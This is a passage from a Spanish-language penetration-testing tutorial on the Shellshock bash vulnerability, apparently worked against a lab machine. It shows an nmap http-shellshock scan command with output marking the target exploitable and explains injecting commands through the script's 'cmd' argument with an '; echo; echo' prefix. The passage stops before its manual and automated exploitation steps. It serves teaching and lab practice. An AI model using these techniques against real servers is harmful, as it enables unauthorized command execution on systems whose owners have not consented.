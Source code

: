 #### Explotación

Ahora que sabemos del contexto de esta vulnerabilidad vamos a ver cómo podemos identificar escenarios donde es factible que se presente esta vulnerabilidad, identificar objetivos que sean vulnerabilidades, y explotar la vulnerabilidad tanto manual como automáticamente.

Como pudimos ver, si encuentran una carpeta cgi-bin en una web hay que tener en cuenta la vulnerabilidad Shellshock, así mismo si ven algún script bash, perl o similares en el sistema y vean que puede estar siendo utilizado en la web para interactuar con el sistema. También tener en cuenta que la vulnerabilidad es vieja y que en sistemas actuales es muy difícil encontrarse con un sistema tan **desactualizado**, por lo que es más probable ver esta vulnerabilidad en laboratorios algo viejos.

Ahora para identificar objetivos vulnerables y explotarlos traigo 3 aproximaciones:

###### Nmap:

Cuando tengamos un posible script vulnerable vamos usar el script de nmap '**http-shellshock**' recibiendo como argumento la variable 'uri' como lo haremos de la siguiente manera:

```bash
nmap -p80 --script http-shellshock --script-args uri='http://10.10.10.56/cgi-bin/user.sh' 10.10.10.56
```

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-26 00:55 -05
Nmap scan report for 10.10.10.56
Host is up (0.084s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-shellshock: 
|   VULNERABLE:
|   HTTP Shellshock vulnerability
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2014-6271
|       This web application might be affected by the vulnerability known
|       as Shellshock. It seems the server is executing commands injected
|       via malicious HTTP headers.
|             
|     Disclosure date: 2014-09-24
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271
|       http://www.openwall.com/lists/oss-security/2014/09/24/10
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-7169
|_      http://seclists.org/oss-sec/2014/q3/685

Nmap done: 1 IP address (1 host up) scanned in 0.62 seconds
```

El script nos reporta que es vulnerable, y con esto podemos proceder a explotarlo con el mismo script adicionando el argumento 'cmd' con el comando que queremos ejecutar en la máquina víctima. Pero hay que tener algo **importante** en este punto, muchas veces cuando nos enfrentamos a esta vulnerabilidad u otras relacionadas a ejecución de comandos tenemos que meter uno o dos comandos antes como '; echo; echo' porque en ocasiones o no se ejecuta el comando, o crashea la web como es este el caso con un error 500, por ello si ingresamos solo un comando en la variable cmd, no va a salir ningún output del comando en el reporte de nmap. En la imagen se ve como no se contempla el echo después del payload:
